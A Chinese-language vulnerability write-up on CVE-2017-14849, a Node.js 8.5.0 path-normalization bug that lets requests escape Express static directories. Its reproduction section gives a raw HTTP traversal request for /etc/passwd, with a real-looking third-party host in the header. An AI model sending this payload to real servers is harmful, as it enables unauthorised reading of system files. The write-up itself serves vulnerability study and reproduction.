# （CVE-2017-14849）Node.js 目录穿越漏洞

## 一、漏洞简介

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 二、漏洞影响

Node.js 8.5.0

## 三、复现过程

```bash
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: www.baidu.com:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

```

![5.png](images/2020_06_13/4c91689ff6134635b83aa7b437d59648.png)

## 参考链接

> https://vulhub.org/#/environments/node/CVE-2017-14849/

